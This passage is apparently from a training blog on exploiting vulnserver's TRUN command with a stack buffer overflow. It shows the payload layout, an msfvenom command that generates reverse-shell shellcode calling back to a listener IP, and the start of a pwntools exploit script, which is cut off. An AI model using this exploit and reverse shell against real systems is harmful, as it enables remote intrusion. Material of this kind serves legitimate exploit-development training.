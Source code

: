 ### Payload Structure
If you have followed this article through you should already have:   
`payload="TRUN . " + "A"*2005 + EIP + "C"*(3000-2005-11)`   
- `"TRUN . "`= Required to reach the vulnerable function.   
- `"A"*2005` = Padding to overflow and reach EIP.   
- `"C"*(3000-2005-11)` = Padding to make sure the program crash.   
A working exploit will require us to replace the end padding to something that can be executed from stack. What can be executed by program from the stack? Right, Shellcodes!  

### Generating Shellcode with MSFVenom
You can google this part yourself, we just need to generate a payload (reverse shell or bind shell).   
- Payload
	- Meterpreter    
		- windows/meterpreter/reverse_tcp or bind_tcp   
		- windows/shell/reverse_tcp or bind_tcp   
	- Non Meterpreter    
		- windows/shell_reverse_tcp or bind_tcp   
   
- Command   
`msfvenom -p windows/shell_reverse_tcp LHOST=192.168.230.1 LPORT=9001 -f python -v shellcode -b "\x00" EXITFUNC=thread -e x86/shikata_ga_nai -i 5`

### Adding Nopsled and Full Exploit Structure
Nopsled is being used to adjust the stack so the shellcode will be executed properly. I personally always use 16 bytes of nopsleds because 16 is the magic number ;). So, at the end the full payload should look like this:   
`payload="TRUN . " + "A"*2005 + EIP + "\x90"*16 + <shellcodes generated>`

## Successful Exploitation
![suxes](/assets/trun/suxes.gif)  
Voila! We popped a shell!

## Conclusion
In this article we have learn how to actually exploit vulnerable windows x86 program with simple buffer overflow. If you are new, I know this seems too much to understand at one go but trust me, you'll get it sooner or later. In the next article in this series, we will try to exploit a harder function from vulnserver. Stay tune!    

### Scripts and Exploit
All final script can be found in this [repo](https://github.com/no0g/vulnserver-journey)
-  Full Exploit
	```python
	#!/bin/python
	from pwn import *

	host="192.168.230.130"
	port=9999
	offset=2005
	total=2500
	eip=p32(0x625011AF)
